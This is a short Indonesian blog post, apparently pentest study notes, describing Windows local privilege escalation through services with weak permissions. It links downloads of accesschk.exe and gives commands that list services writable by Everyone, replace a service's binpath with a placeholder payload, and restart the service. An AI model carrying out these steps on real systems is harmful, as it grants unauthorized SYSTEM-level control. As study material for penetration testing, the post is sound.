 ```yaml
---
layout: post
title: "Service with Bad Access Permission"
date: 2024-01-12 07:00:00 +0700
categories: "Windows-Local-Privilege-Escalation"
---
```


Download:
- <https://github.com/phackt/pentest/blob/master/privesc/windows/accesschk.exe>
- <https://github.com/phackt/pentest/blob/master/privesc/windows/accesschk64.exe>
- <https://github.com/phackt/pentest/blob/master/privesc/windows/accesschk-XP.exe>

# Proof of Concept

Gunakan tool `accesschk.exe` untuk melihat service mana saja yang dapat dimodifikasi
```powershell
accesschk.exe -uwcv Everyone *
```

Mengubah BinPath untuk menginjeksi sebuah Payload
```powershell
sc config <service name> binpath= "<payload>"
```

Restart Service
```powershell
sc stop "<service name>"
sc start "<service name>"
```
